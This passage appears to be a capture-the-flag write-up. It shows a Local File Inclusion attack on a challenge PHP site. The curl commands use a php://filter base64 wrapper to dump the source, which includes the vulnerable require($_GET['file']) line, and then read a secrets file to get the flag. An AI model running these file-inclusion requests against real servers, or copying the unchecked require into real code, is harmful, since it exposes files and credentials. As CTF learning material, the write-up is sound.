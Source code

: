 I then tried to access `index.php`:

```bash
juancho💀hackbox:notrequired$ curl http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.php
<br />
<b>Fatal error</b>:  Allowed memory size of 134217728 bytes exhausted (tried to allocate 20480 bytes) in <b>/var/www/html/index.php</b> on line <b>14</b><br />
juancho💀hackbox:notrequired$ 
```

Then I tried the php filter with base64:

```bash
juancho💀hackbox:notrequired$ curl http://ctf.bennetthackingcommunity.cf:8333/index.php?file=php://filter/convert.base64-encode/resource=index.php | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   300  100   300    0     0   1276      0 --:--:-- --:--:-- --:--:--  1276
<?php

if(!isset($_GET["file"])){
    header("location: http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.html");
    exit;
}

else{
    require($_GET['file']);
}

#note to myself: delete /bin/secrets.txt!
?>
juancho💀hackbox:notrequired$ 
```

It was a small PHP file that checks if the GET parameter "file" is not set and redirects the user to the URL accordingly.

Otherwise, it loads the file specified from the "file" GET parameter. This is a classic insecure PHP programming mistake that leads to [Local File Inclusion](https://cwe.mitre.org/data/definitions/98.html) that PHP programmers have to always keep in mind.

Downloaded the secret file and found the flag:

```bash
juancho💀hackbox:notrequired$ curl http://ctf.bennetthackingcommunity.cf:8333/index.php?file=/bin/secrets.txt
BUHC{r3qu1r3_1s_s0m3th1ng_9091029130()8112938121}juancho💀hackbox:notrequired$ 
juancho💀hackbox:notrequired$ 
```

> DO{r3qu1r3_1s_s0m3th1ng_9091029130()8112938121}

#### Recommendations

It does not sit well with me that anyone would use the GET parameter for the filename, instead of the URL itself.
